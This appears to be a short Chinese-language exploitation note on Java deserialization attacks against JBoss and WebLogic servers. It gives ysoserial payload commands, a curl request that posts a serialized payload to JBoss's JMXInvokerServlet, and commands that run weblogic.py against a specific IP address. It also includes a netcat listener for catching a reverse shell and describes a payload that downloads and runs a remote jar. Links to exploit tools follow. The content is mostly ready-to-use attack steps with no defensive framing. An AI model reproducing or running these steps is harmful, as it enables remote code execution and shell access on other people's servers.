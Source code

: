 ## JavaDeserialization
不怎麼能用。

--

###jboss：
#####一
```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >~/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '~/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```
[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  
####二  
[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  
暫未測試。


###weblogic：  
```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```
Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

--

通用漏洞可以從這裡總結：  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  